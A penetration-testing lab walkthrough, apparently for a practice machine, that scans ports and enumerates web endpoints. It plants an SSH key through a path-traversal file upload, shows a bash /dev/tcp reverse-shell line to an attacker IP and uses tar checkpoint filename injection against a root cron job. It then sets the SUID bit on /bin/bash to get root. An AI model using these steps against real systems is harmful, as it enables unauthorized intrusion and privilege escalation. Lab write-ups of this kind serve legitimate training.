



## Nmap
```bash
nmap -Pn -p- --open 192.168.141.249
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 12:58 +0000
Stats: 0:02:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.32% done; ETC: 13:00 (0:00:06 remaining)
Nmap scan report for 192.168.141.249
Host is up (0.10s latency).
Not shown: 65524 filtered tcp ports (no-response), 7 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
21/tcp    open  ftp
25022/tcp open  unknown
33414/tcp open  unknown
40080/tcp open  unknown
```
```bash
nmap -A -T4 -p 21,25022,33414,40080 192.168.141.249
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 13:01 +0000
Nmap scan report for 192.168.141.249
Host is up (0.10s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.244
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open  http    Werkzeug httpd 2.2.3 (Python 3.9.13)
|_http-server-header: Werkzeug/2.2.3 Python/3.9.13
|_http-title: 404 Not Found
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: My test page
|_http-server-header: Apache/2.4.53 (Fedora)
```

## Port 40080 Enumeration
```bash
feroxbuster -u http://192.168.141.249:40080/ -s 200 -t 200 --scan-dir-listings
#Results
200      GET       41l       73w      495c http://192.168.141.249:40080/styles/style.css                                                                                                                                                                                                                                    200      GET      219l     1187w   100265c http://192.168.141.249:40080/images/firefox-icon.png                                                                                                                                                                                                                             200      GET       25l      118w     1092c http://192.168.141.249:40080/                                                                                                                                                                                                                                                    200      GET      116l      998w     6555c http://192.168.141.249:40080/LICENSE                                                                                                                                                                                                                                             
[####################] - 2m     30012/30012   0s      found:4       errors:247    
[####################] - 2m     30000/30000   334/s   http://192.168.141.249:40080/ 
[####################] - 89s    30000/30000   337/s   http://192.168.141.249:40080/images/ 
[####################] - 89s    30000/30000   337/s   http://192.168.141.249:40080/styles/ 

```

## Port 33414 Enumeration

```bash
feroxbuster -u http://192.168.141.249:33414/ -s 200 -t 200 --scan-dir-listings

#Results
200      GET        1l       19w      137c http://192.168.141.249:33414/help
200      GET        1l       14w       98c http://192.168.141.249:33414/info

# Found 2 directories: 
/file-list?dir=/tmp
/file-upload
# Input into address bar
# Found possible user alfredo
```



## Enumerate provided file path

```bash
curl http://192.168.141.249:33414/file-list?dir=/tmp        

#Results
["test.txt","flask.tar.gz","systemd-private-0c7fad6e129b45c39aa0762612d7b03d-httpd.service-mjMDzW","systemd-private-0c7fad6e129b45c39aa0762612d7b03d-systemd-logind.service-ve1fMD","systemd-private-0c7fad6e129b45c39aa0762612d7b03d-ModemManager.service-P127VQ","vmware-root_784-2966103535","systemd-private-0c7fad6e129b45c39aa0762612d7b03d-chronyd.service-hs7WPF","systemd-private-0c7fad6e129b45c39aa0762612d7b03d-dbus-broker.service-XE62Fp","systemd-private-0c7fad6e129b45c39aa0762612d7b03d-systemd-resolved.service-O6dxPH","systemd-private-0c7fad6e129b45c39aa0762612d7b03d-systemd-oomd.service-tasz5j",".Test-unix",".font-unix",".XIM-unix",".ICE-unix",".X11-unix"]

# Directory Traversal
curl http://192.168.141.249:33414/file-list?dir=/home           

#Results
["alfredo"]

# SSH
curl http://192.168.141.249:33414/file-list?dir=/home/alfredo/.ssh
# Results
["id_rsa","id_rsa.pub"]
```

## Generate SSH Key
```bash
ssh-keygen
#Pick file name. IE: id_rsa
#no passphrase
```
## Change permissions
```
chmod 600 id_rsa
```
## Upload Keys
```bash
 curl -X POST http://192.168.141.249:33414/file-upload \
  -F "file=@id_rsa.pub;type=text/plain" \
  -F "filename=authorized_keys"

#Results
{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}

#NOTE: We will change our keys to a .txt file
cp id_rsa.pub authorized_keys.txt

# Upload Again with new .txt file
curl -X POST http://192.168.141.249:33414/file-upload \
  -F "file=@authorized_keys.txt;type=text/plain" \
  -F "filename=../../../home/alfredo/.ssh/authorized_keys"

# Results
{"message":"File successfully uploaded"}

# Verify Upload
curl http://192.168.141.249:33414/file-list?dir=/home/alfredo/.ssh
```

## SSH In as Alfredo
```bash
ssh -i id_rsa alfredo@192.168.141.249 -p 25022
```

## Cron jobs
```bash
cat crontab

#Results
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh

#FOUND INTERESTING FILE backup-flask.sh

[alfredo@fedora etc]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

# What this script does: 
    1. Adds /home/alfredo/restapi to the PATH so that any executables in that directory are easily accessible.
    2. Changes the working directory to /home/alfredo/restapi.
    3. Creates a compressed archive of all files in this directory and stores it in /tmp as flask.tar.gz.
```

## Create a shell file on TGT Machine

```bash
nano shell.sh

# Paste the following:
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.244/4444 0>&1
```

```bash
# Change permissions
chmod +x shell.sh
```

## Create Malicious filenames
```bash
# triggers a checkpoint every 1 file
echo "" > "--checkpoint=1"
# executes your shell script at each checkpoint
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

## Wait for shell

```bash
# Failed to establish shell.
```

## Instead of Reverseshell, lets change SUID bit on bash

```bash
# Modify shell.sh

#!/bin/bash
chmod u+s /bin/bash

# As befor, create malicious tar filenames
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
```
## Verify SUID Bit change
```bash
ls -la /bin/bash

# Results
-rwsr-xr-x. 1 root root 1390080 Jan 25  2021 /bin/bash

#WE ARE LOOKING FOR THE "S"
```

## Execute base in Privileged mode
```bash
bash -p

#Success. Grab proof.txt
```
